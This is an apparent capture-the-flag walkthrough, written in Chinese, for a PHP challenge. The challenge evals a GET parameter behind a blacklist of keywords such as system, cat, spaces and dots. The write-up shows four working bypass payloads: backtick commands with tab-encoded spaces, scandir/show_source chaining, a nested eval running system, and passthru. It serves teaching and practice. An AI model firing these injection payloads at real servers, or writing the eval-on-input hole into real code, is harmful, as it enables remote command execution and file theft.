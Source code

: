 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

- flag
- system
- php
- cat
- sort
- shell
- 点(.)
- 空格( )
- 单引号(')



### 第一种方案

还可以同上题

echo配合反引号

```
?c=echo(`ls`);
```

![image-20250402174150806](./assets/image-20250402174150806.png)

利用*匹配字符，利用%09绕过空格过滤（这里${IFS}$1和${IFS}都无法使用）

```
?c=echo(`tac%09fl*`);
```

![image-20250402174158507](./assets/image-20250402174158507.png)



### 第二种方案

或者利用函数一点点凑

```
?c=var_dump(scandir(getcwd()));
```

![image-20250402174205248](./assets/image-20250402174205248.png)

获取当前路径下的内容

getcwd()获取当前路径

scandir()扫描目录

var_dump()输出内容



```
?c=show_source(next(array_reverse(scandir(getcwd()))));
```



array_reverse()逆序数组

next()取第二个

show_source()显示源码

得到flag

![image-20250402174215605](./assets/image-20250402174215605.png)

### 第三种方案

嵌套一个eval函数实现绕过

```
?c=eval($_GET["ra1n3"]);?>&ra1n3=system("cat flag.php");
```

![image-20250402174233844](./assets/image-20250402174233844.png)



### 第四种方案

利用未过滤函数passthru

```
?c=passthru("tac%09fl*");
```

![image-20250402174241758](./assets/image-20250402174241758.png)